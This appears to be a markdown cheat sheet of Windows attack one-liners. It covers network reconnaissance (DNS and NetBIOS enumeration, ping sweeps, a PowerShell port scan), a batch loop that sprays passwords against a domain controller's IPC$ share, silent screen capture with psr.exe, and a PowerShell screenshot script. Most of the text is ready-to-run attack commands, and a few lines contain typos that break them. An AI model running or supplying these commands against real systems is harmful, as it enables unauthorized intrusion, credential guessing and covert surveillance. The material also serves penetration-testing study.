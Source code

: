 # Windows

## 01 - Internal Reconnaissance

### 1.1 - DNS Enumeration

#### 1.1.1 - Command Prompt

- DNS NSlookup

`C:\> for /L %i in (1,1,255) do @nslookup 192.168.1.%i 192.168.1.254 2> nul | find "Name" && echo 192.168.1.%i`

#### 1.1.2 - Powershell

- DNS using LDAP

`PS C:\> Get-ADComputer -Filter * -Properties IPv4Address | Where {4_.IPV4Address} | Select-Object Name,IPv4Address`

`PS C:\> Get-ADComputer -Filter { IPV4Address -eq '<IP>' } -Properties LastLogonDate,PasswordLastSet,IPv4Address`

### 1.2 - NetBIOS Enumeration

`C:\> for /l %i in (1,1,255) do @nbtstat -A 192.168.1.%i 2> nul && echo 192.168.1.%i`

### 1.3 - Ping Sweep

#### 1.3.1 - Command Prompt

```
C:\> for /l %i in (1, 1, 255) do @ping -n 1 -l 4 192.168.1.%i | find "TTL"

C:\> for /k %i in (1, 1, 255) do @ping -n 1 192.168.1.%i 2> nul && echo 192.168.1.%i host is up
```

#### 1.3.2 - Powershell

`PS C:\> 1..255 | % { "192.168.1.$($_): $(Test-Connection -Count 1 -Computername 192.168.1.$($_) -Quiet)" }`

### 1.4 - Port Scan

`PS C:\> 1..1024 | % { echo ((New-Object Net.Sockets.TcpClient).Connect("<IP>", $_)) "Port $_ is open" } 2>$null`

## 02 - Password Spraying

`C:\> @for /f %n in (users.txt) do @for /f %p in (passwords.txt) do @net use \\<domain_controller_target>\IPC$ /user:<domain_name>\%n %p 1>nul 2>&1 && @echo [*] %n:%p && @net use /delete \\<domain_controller_target>\IPC$ > nul`

## 03 - Screenshot

### 3.1 - Command Prompt

`C:\> psr.exe /start /output D:\screenshots.zip /sc 1 /gui 0`

### 3.2 - Powershell Script

`$ cat screenshot.ps1`

---

```powershell
Param(  
    [Parameter(Mandatory = $true)][string]$Path  
)  
  
$FileName = "$env:COMPUTERNAME - $(Get-Date -Format yyyy-MM-dd_HHmmss).bmp"  
$File = "$Path\$FileName"  
  
Add-Type -AssemblyName System.Windows.Forms  
Add-Type -AssemblyName System.Drawing  
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen  
$Width = $Screen.Width  
$Height = $Screen.Height  
$Left = $Screen.Left  
$Top = $Screen.Top  
  
$bitmap = New-Object System.Drawing.Bitmap $Width, $Height  
$graphic = [System.Drawing.Graphics]::FromImage($bitmap)  
$graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)  
$bitmap.Save($File)   
  
Write-Output "Screenshot saved to:"  
Write-Output $File
```

---
## References

- [Powershell Problem Solver Find IP Address Using Powershell](https://petri.com/powershell-problem-solver-find-ip-address-using-powershell/)

- [Powershell Regex to Accurately match IPv4 Address (0-255 only)](https://www.powershelladmin.com/wiki/PowerShell_regex_to_accurately_match_IPv4_address_(0-255_only).php)

- [PSR LOLBas](https://lolbas-project.github.io/lolbas/Binaries/Psr/)